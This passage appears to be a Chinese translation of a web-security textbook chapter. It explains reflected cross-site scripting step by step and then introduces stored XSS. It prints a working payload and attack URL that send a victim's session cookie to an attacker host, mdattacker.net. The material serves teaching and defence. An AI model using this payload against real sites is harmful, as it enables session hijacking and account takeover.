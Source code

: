 1.用户正常登录到应用程序，并获得包含会话令牌的cookie：
```
Set-Cookie: sessId=184a9138ed37374201a4c9672362f12459c2a652491a3
```
2.攻击者通过某种方式（稍后将详细介绍）将以下URL馈给用户：
```
http://mdsec.net/error/5/Error.ashx?message=<script>var+i=new+Image
;+i.src="http://mdattacker.net/"%2bdocument.cookie;</script>
```
与上一个生成对话框消息的示例一样，该URL包含嵌入式JavaScript。 但是，这种情况下的攻击有效载荷更具恶意性。<br>

3.用户从应用程序请求攻击者提供给他的URL。<br>

4.服务器响应用户的请求。 由于XSS漏洞，响应包含攻击者创建的JavaScript。

5.用户的浏览器会接收攻击者的JavaScript并执行它的方式，就像执行从应用程序接收到的其他任何代码一样。

6.攻击者创建的恶意JavaScript是：
```
var i=new Image; i.src="http://mdattacker.net/"+document.cookie;
```
此代码使用户的浏览器向攻击者拥有的域mdattacker.net发出请求。 该请求包含用户当前应用程序的会话令牌：
```
GET /sessId=184a9138ed37374201a4c9672362f12459c2a652491a3 HTTP/1.1
Host: mdattacker.net
```
7.攻击者监视对mdattacker.net的请求并接收用户的请求。 他使用捕获的令牌劫持用户的会话，获得对该用户的个人信息的访问权，并以"用户"身份执行任意操作。

**NOTE**<br>
如您在第6章中所看到的，一些应用程序存储一个持久性cookie，该cookie每次访问时都会有效地重新验证用户身份，例如实现"记住我"功能。 在这种情况下，前面的过程的步骤1是不必要的。 即使目标用户未主动登录或使用该应用程序，攻击也会成功。 因此，以这种方式使用Cookie的应用程序会因其所包含的任何XSS缺陷的影响而更加暴露自己。

阅读完所有这些内容后，您可能会想知道为什么，如果攻击者可以诱使用户访问他选择的URL，他会为通过易受攻击的应用程序中的XSS bug传输恶意JavaScript的繁琐程序而烦恼。 他为什么不简单地在mdattacker.net上托管一个恶意脚本，并向用户提供该脚本的直接链接？ 该脚本的执行方式是否与上述示例相同？

要了解为什么攻击者需要利用XSS漏洞，请回顾第3章中描述的同源策略。浏览器将从不同来源（域）接收到的内容进行隔离，以试图防止不同域在内部相互干扰 用户的浏览器。 攻击者的目标不仅是执行任意脚本，还在于捕获用户的会话令牌。 浏览器不允许任何旧脚本访问域的cookie； 否则，会话劫持将很容易。 而是，cookie只能由发布它们的域访问。 它们仅通过HTTP请求提交回发行域，并且只能通过该域返回的页面中包含的JavaScript或由页面加载的JavaScript进行访问。 因此，如果驻留在mdattacker.net上的脚本查询document.cookie，它将无法获取mdsec.net发出的cookie，并且劫持攻击将失败。

利用XSS漏洞的攻击成功的原因在于，就用户的浏览器而言，攻击者的恶意JavaScript是由mdsec.net发送给它的。 当用户请求攻击者的URL时，浏览器将请求http://mdsec.net/error/5/Error.ashx，应用程序将返回一个包含一些JavaScript的页面。 与从mdsec.net接收到的任何JavaScript一样，浏览器会在用户与mdsec.net的关系的安全上下文中执行此脚本。 这就是为什么攻击者的脚本尽管实际上起源于其他地方，但却可以访问mdsec.net发出的cookie的原因。 这也是为什么漏洞本身已被称为跨站点脚本的原因。

# 2. 存储型XSS漏洞(Stored XSS Vulnerabilities)

XSS漏洞的另一类通常称为存储的跨站点脚本。 当一个用户提交的数据存储在应用程序中（通常存储在后端数据库中）然后显示给其他用户而不经过适当的过滤或清理时，就会出现此版本。

存储的XSS漏洞在支持最终用户之间的交互的应用程序中，或者在管理人员访问同一应用程序内的用户记录和数据的应用程序中很常见。 例如，考虑一个拍卖应用程序，该应用程序允许买家发布有关特定商品的问题，并允许卖家发布回复。 如果用户可以发布包含嵌入式JavaScript的问题，而应用程序未对此进行过滤或清理，则攻击者可以发布精心设计的问题，该问题导致任意查看该问题的人（包括卖方和卖方）在浏览器中执行任意脚本。 其他潜在买家。 在这种情况下，攻击者可能会导致不知情的用户对某物品进行竞标而无意，或者使卖方关闭拍卖并接受攻击者对该物品的低价。

针对存储的XSS漏洞的攻击通常涉及至少两个对应用程序的请求。 首先，攻击者发布了一些包含应用程序存储的恶意代码的精心制作的数据。 第二种方法是，受害者查看包含攻击者数据的页面，并在受害者的浏览器中执行脚本时执行恶意代码。 因此，该漏洞有时也称为二阶跨站点脚本。 （在这种情况下，" XSS"实际上是用词不当，因为攻击没有跨站元素。但是，该名称被广泛使用，因此我们将其保留在此处。）

图12-4说明了攻击者如何利用存储的XSS漏洞执行与针对反射XSS所述的相同会话劫持攻击。
